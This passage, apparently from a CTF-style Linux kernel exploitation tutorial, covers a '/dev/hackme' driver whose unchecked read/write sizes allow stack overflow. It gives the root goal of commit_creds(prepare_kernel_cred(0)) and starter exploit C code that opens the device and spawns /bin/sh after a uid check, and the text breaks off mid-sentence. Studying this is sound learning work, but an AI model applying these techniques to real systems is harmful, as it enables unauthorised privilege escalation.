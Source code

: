 ```C
    uVar3 = 0xfffffffffffffff2;
  }
  if (lVar1 == *(long *)(in_GS_OFFSET + 0x28)) {
    return uVar3;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}

```
## The Vulns

The bug here is obvious that we can send a size larger than the size of buffer and overflow it while writing and the same goes for reading data from the hackme_buff.

## Exploitation

so looking at the primitives we have which are very powerful we can read values from and stack and write value to the stack.but in kernel exploitatio our goal is not to get a shell but to get root so we do that by calling:

```C
commit_creds(prepare_kernel_cred(0));
```

lets setup some basic kernel exploit code:

***Read functionality***

```C
int global_fd;
unsigned long cookie;

void hm_open(){
    global_fd = open("/dev/hackme", O_RDWR);
    if (global_fd < 0){
        puts("[+] Failed ");
        exit(0x1337);
    } else {
        puts("[*] Opened device /dev/hackme");
    }
}

void popShell(void){
    puts("[+] Returned to userland");
    if (getuid() == 0){
        printf("got root!\n", getuid());
        system("/bin/sh");
    } else {
            printf("Ooops it looks like we failed\n")
        exit(0x1337);
    }
}

```
When we are reading and writing to the global fd we are actually accessing the hackme_buff verify this by:
